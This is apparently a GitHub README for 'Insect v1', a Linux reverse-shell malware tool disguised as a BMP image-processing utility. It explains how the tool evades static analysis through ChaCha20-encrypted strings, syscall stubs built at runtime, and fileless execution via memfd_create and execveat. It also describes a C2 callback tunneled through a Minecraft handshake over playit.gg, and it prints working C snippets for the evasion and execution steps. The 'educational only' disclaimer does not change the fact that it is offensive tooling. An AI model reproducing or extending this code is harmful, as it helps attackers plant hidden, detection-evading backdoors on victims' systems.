

<div align="center" markdown="1">
  
  </br>
  <sup>Fileless Execution & Evasion</sup>
</div>

# Insect v1 - Reverse Shell

Insect is a new method of executing fileless reverse shells.
The primary component is masquerading as a professional-grade C utility for 24-bit BMP image processing ("BMP Image Engine").
The secondary component utilizes **Dynamic Syscall Stubs**, **memfd_create**, and **ChaCha20** encrypted string resources to evade static analysis completely.
The combination of both should bypass basic heuristics, manual inspection, and advanced static analyzers.

**Disclaimer**: Do not use this on systems you do not own. I am not responsible for any misuse of this code. This is for educational purposes only.

## How it works.

There are 3 parts to building the covert reverse shell.
For the first, we generate the engine source.
We read the `main.c` template, encrypt all plaintext strings with ChaCha20, and inject the C2 address to produce `engine_source.c`.
For the second, we compile the generated C source into an intermediate ELF binary.
This intermediate ELF contains the reverse shell + image processing code.

Every **String** the payload uses at runtime is encrypted.
At build time each one gets encrypted with a unique ChaCha20 nonce and embedded as a static const byte array in the generated C source.
This prevents static analysis tools from extracting sensitive plaintext from the binary.

For the final stage, we encrypt the ELF with a random ICC profile key, split it across named sections, and generate a loader stub.
The loader stub allocates an executable memory block, dynamically constructs a `syscall` opcode stub, and executes the payload completely in memory via `memfd_create` and `execveat`. 
This results in a final binary that has **zero** raw `syscall` instructions in its `.text` section and absolutely no imports for suspicious functions like `fork` or `execve`.

## Example.

When executing the payload on the target machine, it accepts dummy arguments to maintain the illusion of an image processing tool:

```bash
./bmputil input.bmp output.bmp --grayscale
```

Under the hood, it establishes a covert reverse shell session.
It forks a child process that connects back to the C2 server through a Minecraft handshake tunneled via `playit.gg`.
It uses inline syscalls to avoid `libc` hooks.

<div align="center" markdown="1">
  <sup>C2 Listener Output</sup>
  </br>
  
  </br>
  </br>
</div>

Once the connection is caught, the listener sends a magic trigger (`0xDEAD`).
The payload receives this trigger, redirects `stdin`, `stdout`, and `stderr` to the socket handle, and spawns an interactive `/bin/sh` session.
You are now dropped into a fully interactive shell.

## Technicals.

###### Dynamic Syscall Construction.

```c
/*
 * Constructing a syscall stub dynamically in executable
 * memory allows us to evade static analysis that looks
 * for the '0F 05' opcode sequence in the binary.
 */
uint8_t *buf = mmap(NULL, size, PROT_RWX, MAP_ANON_PRIV, -1, 0);

uint8_t stub[] = {
    0x48, 0x89, 0xf8, 0x48, 0x89, 0xf7, 0x48, 0x89, 0xd6, 
    0x48, 0x89, 0xca, 0x4d, 0x89, 0xc2, 0x4d, 0x89, 0xc8, 
    0x0f, 0x05, 0xc3
};

memcpy(buf + payload_size, stub, sizeof(stub));
long (*_sys)(long, long, long, long, long, long, long) = (void *)(buf + payload_size);
```

###### ChaCha20 Stream Cipher.

```c
/*
 * Decrypts obfuscated string resources at runtime.
 * Prevents static analysis tools from extracting
 * sensitive plaintext from the binary.
 */
static void _transform_resource(
        const uint8_t *in,
        uint8_t *out,
        int len,
        const uint8_t nce[8],
        int add_null
) {
        // Obfuscated key material injection...
        uint32_t state[16] = {
                0x61707865 ^ [CHACHA_MASK], 0x3320646e ^ [CHACHA_MASK],
                // ...
        };

        // Decrypt payload string
}
```

###### Fileless Execution (`execveat`).

```c
/*
 * Executes the decrypted payload entirely from memory
 * without touching the disk or /tmp.
 */
long fd = _sys(SYS_MEMFD_CREATE, (long)"", 0, 0, 0, 0, 0);

if (fd >= 0) {
    _sys(SYS_WRITE, fd, (long)buf, tot, 0, 0, 0);
    long p = _sys(SYS_FORK, 0, 0, 0, 0, 0, 0);
    
    if (p == 0) {
        char *args[] = { (char *)APP_NAME, NULL };
        _sys(SYS_EXECVEAT, fd, (long)"", (long)args, 0, AT_EMPTY_PATH, 0);
        _sys(SYS_EXIT, 1, 0, 0, 0, 0, 0);
    }
    _sys(SYS_CLOSE, fd, 0, 0, 0, 0, 0);
}
```


Exploite writing style are inspired after seeing multiple linux maldevs :p
